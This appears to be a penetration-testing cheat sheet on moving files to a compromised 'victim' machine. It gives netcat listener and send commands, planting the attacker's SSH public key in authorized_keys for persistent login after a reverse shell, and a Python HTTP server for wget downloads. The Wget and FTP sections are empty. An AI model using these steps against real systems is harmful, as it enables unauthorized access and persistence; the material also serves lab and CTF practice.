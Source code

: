 # Transfering files


### Netcat
The easiest way normally is to use netcat. 

So on the victim-machine we run nc like this:
```
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: `ssh-keygen -t rsa -C "your_email@example.com"` then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```


### Wget

### Python server

Fire up a simple server on the attacking box. This command will make the entire folder available.
```
python -m SimpleHTTPServer 9999
```

Now you can download any file with curl or wget
```
wget 192.168.1.102:9999/file.txt
```

###ftp

